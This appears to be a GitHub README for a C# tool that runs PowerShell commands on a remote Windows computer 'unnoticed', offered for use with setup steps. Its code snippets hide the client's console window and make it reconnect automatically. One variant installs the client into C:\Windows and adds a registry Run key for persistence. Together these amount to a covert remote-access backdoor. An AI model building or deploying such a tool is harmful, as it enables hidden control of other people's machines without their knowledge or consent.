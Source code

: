 # remote-powershell

It is a terminal-based application that allows you to execute commands on a remote computer in PowerShell unnoticed.

The application is divided into two main sections: client and server. And there are also special versions of sections that have additional functionality. Each of the sections and versions is briefly described below, as well as a short guide on how to set them up.

## server 

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/server)

The server folder contains all the files related to the part of the program that should be executed on the device from which the commands will be sent.

Just change the IP and Port to the one you need and run the program while waiting for connections.

```csharp
// Change IPAddress.Any (IP) and 8802 (Port) to the one you need
TcpListener tcpListener = new TcpListener(IPAddress.Any, 8802);
```

| Command           | Description                                                                  | Syntax                        | Aliases |
| ----------------- | ---------------------------------------------------------------------------- | ----------------------------- | ------- |
| execute           | Sends and executes the command you specified on the remote client's computer | execute [client-id] [command] | exec, ! |
| connection list   | Gives a list of all active remote connections                                | connection list               |         |
| connection remove | Forcibly disconnects the specified remote client from the server             | connection remove [client-id] |         |
| clear             | Clears the terminal                                                          | clear                         | clr     |
| quit              | Closes the application                                                       | quit                          | exit    |

Despite the fact that the disconnect command forcibly disconnects the remote client from the server, the automatic reconnection function in the client can still restore connections after a while.

## client

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/client)

The client folder contains all the files related to the part of the program that should be executed on the device to which the commands will be sent and executed.

Just change the IP and Port to the ones you installed on the server and run the program on another device.

```csharp
string host = "127.0.0.1"; // Change 127.0.0.1 (IP) to the one you need
int port = 8802;           // Change 8802 (Port) to the one you need
```

If you don't want the application to be automatically hidden after launch, delete the code shown below.

```csharp
[DllImport("user32.dll")]
static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

[DllImport("kernel32.dll")]
static extern IntPtr GetConsoleWindow();

const int SW_HIDE = 0;
const int SW_SHOW = 5;

var handle = GetConsoleWindow();
ShowWindow(handle, SW_HIDE);
```

You can also delete only the last line shown, this will also make the app visible after launch.

Please note that if you use services that will help you expand your local network, such as ngrok, then you may have problems reconnecting the client to the server after it is turned off, since the connection for the client will remain active.

## client-and-installer

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/client-and-installer)

Client-and-installer is a version of the application that, when launched, automatically installs the client on a remote computer and adds it to Windows Startup.

```csharp
// Instead of "C:\Windows\client.exe" enter the path where the hidden client will be installed
if (Environment.ProcessPath != @"C:\Windows\client.exe")
{
    // Instead of "C:\Windows\client.exe" enter the path where the hidden client will be installed
    string path = @"C:\Windows\client.exe";
    ...
}
```

Сlient-and-installer automatically adds the application to Windows startup, if you want to remove it, then go to the Program.cs file in the client-and-installer folder and remove all lines from 15th to 17th.

```csharp
// Autorun code
RegistryKey registry;
registry = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\", true);
registry.SetValue("client", @"C:\Windows\client.exe");
```